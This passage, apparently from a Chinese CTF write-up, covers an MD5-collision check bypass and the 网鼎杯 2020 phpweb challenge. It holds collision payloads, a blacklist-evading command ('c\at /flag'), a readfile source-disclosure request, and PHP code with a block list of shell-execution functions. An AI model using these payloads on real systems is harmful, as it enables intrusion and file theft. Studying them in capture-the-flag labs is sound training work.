 字符串不同但是MD5值相同

用到MD5碰撞

![](https://img-blog.csdnimg.cn/20210426113820656.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
```
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

```
param1=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2

param2=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
```

ls ban了用 `dir`命令

![](https://img-blog.csdnimg.cn/20210426113943168.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
```
cmd=c\at%20/flag
```

---
# [网鼎杯 2020 朱雀组]phpweb

抓包：

![](https://img-blog.csdnimg.cn/20210426114034604.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
func是方法，p是参数

直接读一手文件：

func=readfile&p=index.php

index.php:
```php
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
```